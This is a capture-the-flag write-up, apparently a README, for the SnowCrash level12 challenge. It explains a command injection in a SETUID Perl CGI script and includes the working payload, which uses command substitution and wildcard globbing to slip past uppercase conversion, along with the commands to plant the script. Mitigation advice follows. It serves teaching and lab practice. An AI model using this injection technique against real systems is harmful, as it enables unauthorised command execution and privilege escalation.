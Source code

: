 ## 📄 Description

The vulnerable Perl CGI script takes two parameters (x and y) and runs egrep "^$x" using backticks, allowing command injection. However, x is converted to uppercase and truncated at the first space, preventing direct injection of commands like `getflag`.

To bypass this, we place a malicious script in a path with only uppercase-safe characters (e.g., /dev/shm/EXPLOIT), make it executable, and trigger it using wildcard globbing. This script captures the flag and writes it to a readable file.

## 🧩 Challenge Overview

- The `level12.pl` script is a **SETUID** executable owned by `flag12`, allowing privilege escalation if exploited:
```
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

- The script runs a `CGI` service `locally` on port `4646`, serving requests only from `localhost`:
```
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
[...]
```

- The script uses Perl's `CGI` module with `param`, which is the standard way to read `HTTP request parameters` (GET or POST) in a CGI script:
```
level12@SnowCrash:~$ cat level12.pl 
[...]
use CGI qw{param};
[...]
```

- The call `param("x")` and `param("y")` clearly shows the script expects two parameters named `x` and `y`.
```
level12@SnowCrash:~$ cat level12.pl 
[...]
n(t(param("x"), param("y")));
```

- The script Converts `x` to **uppercase** and **removes** everything after the `first space`:
```
level12@SnowCrash:~$ cat level12.pl 
[...]
$xx = $_[0];         # $xx gets the value of param("x")
$xx =~ tr/a-z/A-Z/;  # Converts all lowercase letters to uppercase
$xx =~ s/\s.*//;     # Removes everything from the first whitespace onward
[...]
```

- The script uses `backticks` to execute shell commands:
```
level12@SnowCrash:~$ cat level12.pl
[...]
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
[...]
```

## ⚔️ Exploitation Strategy

- Write a script (`EXPLOIT`) containing the `getflag` command to a known, executable location (`e.g., /dev/shm/EXPLOIT`):
```
level12@SnowCrash:~$ cat << EOF > /dev/shm/EXPLOIT
> #!/bin/sh
> getflag > /tmp/result
> EOF
```

- Ensure the script is executable :
```
level12@SnowCrash:~$ chmod +x /dev/shm/EXPLOIT
```

- Visit this URL in a web browser to trigger the CGI script and execute the EXPLOIT script:
```
http://${VM_IP}:4646/?x="$(/*/*/EXPLOIT)"
```

## ✅ Result

- Read the flag stored in /tmp/result:
```
level11@SnowCrash:~$ cat /tmp/result
Check flag.Here is your token : 
```

## 🛡️ Mitigation Advice

- Avoid `direct` concatenation of user input into shell commands to prevent **injection vulnerabilities**.
- Implement `rigorous input validation` and `strict filtering mechanisms`.
- Remove the `SUID` bit from scripts unless absolutely necessary to minimize privilege escalation risks.
